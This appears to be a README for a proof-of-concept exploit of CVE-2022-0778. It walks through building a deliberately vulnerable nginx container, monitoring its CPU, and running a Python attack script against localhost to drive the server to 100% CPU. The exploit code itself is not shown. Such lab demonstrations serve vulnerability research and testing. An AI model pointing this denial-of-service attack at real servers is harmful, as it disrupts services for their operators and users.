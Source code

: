 ## POC for CVE-2022-0778

**Terminal 1: Run the Vulnerable Server**

1.  **Build the Docker image:**

    ```bash
      docker build -t vulnerable-nginx-cve-2022-0778 .
    ```

2.  **Run the server container:**
    ```bash
      docker run --rm -it -p 443:443 --name victim-server vulnerable-nginx-cve-2022-0778
    ```

**Terminal 2: Monitor the Server**

1.  **Watch the container's live resource usage:**
    ```bash
    docker stats
    ```
    *(Observe the `CPU %` for `victim-server`. It should be near 0% before the attack.)*

**Terminal 3: Setup & Run the Exploit**

1.  **Prepare the environment:**
    *(Requires Python 3.10).*
    ```bash
    # Create and activate a virtual environment
    # python3.10 -m venv venv310
    # source venv310/bin/activate
    
    # Install dependencies
    pip install -r requirements.txt
    ```

2.  **Launch the attack:**
    ```bash
    python main.py --server 127.0.0.1
    ```
    *After running, check Terminal 2. The CPU usage for `victim-server` should immediately jump to 100%.*
